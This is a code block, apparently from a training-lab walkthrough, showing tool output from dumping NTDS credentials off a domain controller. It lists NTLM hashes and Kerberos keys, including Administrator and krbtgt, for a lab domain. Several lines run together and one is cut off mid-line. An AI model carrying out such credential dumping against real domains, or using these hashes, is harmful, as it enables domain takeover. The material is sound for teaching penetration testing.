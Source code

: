 ```bash
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:1105:aad3b435b51404eeaad3b435b51404ee:4f3c625b54aa03e471691f124d5bf1cd:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-NKHHJGP3SMT:1106:aad3b435b51404eeaad3b435b51404ee:a74cc84578c16a6f81ec90765d5eb95f:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-K5E9CWYEG7Z:1107:aad3b435b51404eeaad3b435b51404ee:ec209bfad5c41f919994a45ed10e0f5c:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-5MG4NRVHF2W:1108:aad3b435b51404eeaad3b435b51404ee:7ede00664356820f2fc9bf10f4d62400:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-UISCTR0XLKW:1109:aad3b435b51404eeaad3b435b51404ee:cad1b8b25578ee07a7afaf5647e558ee:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-ETN7BWMPGXD:1110:aad3b435b51404eeaad3b435b51404ee:edec0ceb606cf2e35ce4f56039e9d8e7:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\\jjohnson:1133:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\\jdoe:1134:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
NTDSUTIL    10.129.201.57   445     DC01         Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
NTDSUTIL    10.129.201.57   445     DC01         Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
NTDSUTIL    10.129.201.57   445     DC01         Administrator:des-cbc-md5:618c1c5ef780cde3
NTDSUTIL    10.129.201.57   445     DC01         DC01$:aes256-cts-hmac-sha1-96:113ffdc64531d054a37df36a07ad7c533723247c4dbe84322341adbd71fe93a9NTDSUTIL    10.129.201.57   445     DC01         DC01$:aes128-cts-hmac-sha1-96:ea10ef59d9ec03a4162605d7306cc78dNTDSUTIL    10.129.201.57   445     DC01         DC01$:des-cbc-md5:a2852362e50eae92NTDSUTIL    10.129.201.57   445     DC01         krbtgt:aes256-cts-hmac-sha1-96:1eb8d5a94ae5ce2f2d179b9bfe6a78a321d4d0c6ecca8efcac4f4e8932cc78e9
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:aes128-cts-hmac-sha1-96:1fe3f211d383564574609eda482b1fa9
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:des-cbc-md5:9bd5017fdcea8fae
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\\jim:aes256-cts-hmac-sha1-96:4b0618f08b2ff49f07487cf9899f2f7519db9676353052a61c2e8b1dfde6b213
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\\jim:aes128-cts-hmac-sha1-96:d2377357d473a5309505bfa994158263
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\\jim:des-cbc-md5:79ab08755b32dfb6
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:aes256-cts-hmac-sha1-96:881e693019c35017930f7727cad19c00dd5e0cfbc33fd6ae73f45c117caca46d
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:aes128-cts-hmac-sha1-
NTDSUTIL    10.129.201.57   445     DC01         [+] Dumped 61 NTDS hashes to /home/bob/.nxc/logs/DC01_10.129.201.57_2025-04-25_084640.ntds of which 15 were added to the database
NTDSUTIL    10.129.201.57   445    DC01          [*] To extract only enabled accounts from the output file, run the following command:
NTDSUTIL    10.129.201.57   445    DC01          [*] grep -iv disabled /home/bob/.nxc/logs/DC01_10.129.201.57_2025-04-25_084640.ntds | cut -d ':' -f1
```
